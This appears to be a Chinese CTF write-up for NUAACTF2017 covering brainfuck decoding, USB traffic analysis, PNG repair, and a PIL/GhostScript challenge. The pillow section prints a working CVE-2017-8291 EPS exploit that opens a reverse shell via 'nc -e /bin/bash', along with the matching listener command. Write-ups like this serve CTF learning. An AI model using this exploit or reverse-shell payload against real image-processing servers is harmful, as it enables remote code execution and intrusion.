


# NUAACTF2017 WriteUp

## 0x00 WEB

## 0x01 REV

## 0x02 PWN

## 0x04 MISC

### ++--

#### **【原理】**

brainfuck, ( ͡° ͜ʖ ͡°)fuck

#### **【目的】**


#### **【环境】**

有浏览器和文本编辑器就行

#### **【工具】**

brainfuck, ( ͡° ͜ʖ ͡°)fuck

#### **【步骤】**

解( ͡° ͜ʖ ͡°)fuck得到brainfuck

参考网址: [( ͡° ͜ʖ ͡°)fuck](https://esolangs.org/wiki/(_%CD%A1%C2%B0_%CD%9C%CA%96_%CD%A1%C2%B0)fuck) 

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++.+++++++.--------------------..++.+++++++++++++++++.--------------.+++++++++++++++++++++.-------------------------.++++++++++++++++.<------------------.---.>----.--------.+++++++++++++++.------------------.++++++++.------------.+++++++++++++++++.<.>+++++.--.++++++++++.
```

再解brainfuck得到flag

参考网址: [brainfuck interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html)

#### **【总结】**

### traffic

#### **【原理】**

usb流量分析

#### **【目的】**


#### **【环境】**

推荐: Kali,Python2.7

#### **【工具】**

[UsbMiceDataHacker](https://github.com/WangYihang/UsbMiceDataHacker)

#### **【步骤】**

需要安装numpy,matplotlib包，在GitHub上的README中有详细教程。




#### **【总结】**
### recover
#### **【原理】**


#### **【目的】**


#### **【环境】**

Python 

#### **【工具】**

<del>pngcheck, 010 editor</del> PCRT

#### **【步骤】**

首先修复png头部，然后发现IHDR的crc校验未通过，直接修改crc为正确值可以看到图片，但是没有flag。

这时候有两种情况，图片高度或宽度，既然正常显示说明宽度没问题，调整图片高度或者爆破高度得到正确高度为1500，得到flag。

我在按照学长方法试的时候发现了另外一种方法...

有一款可以一款自动化检测修复PNG损坏的取证工具: [PCRT](https://github.com/sherlly/PCRT) 

用法在README中...



然后就能在output.png中看到flag了


#### **【总结】**

### pillow

#### **【原理】**

Python PIL Module Command Execution Vulnerability

PIL 在对 eps 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在 dSAFER 模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER 模式 Bypass 漏洞的影响，产生命令执行漏洞。

GhostButt CVE-2017-8291

具体漏洞细节参照以下文章：

https://paper.seebug.org/405/

https://xianzhi.aliyun.com/forum/read/2163.html

#### **【目的】**

#### **【环境】**

#### **【工具】**

#### **【步骤】**

上传带payload的png，payload为`nc -e /bin/bash <IP> <PORT>`，然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。


##### PoC

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def

0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for

/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put

buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put

currentdevice null false mark /OutputFile (%pipe%nc -e /bin/bash <ip> <port>)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```


#### 【总结】**

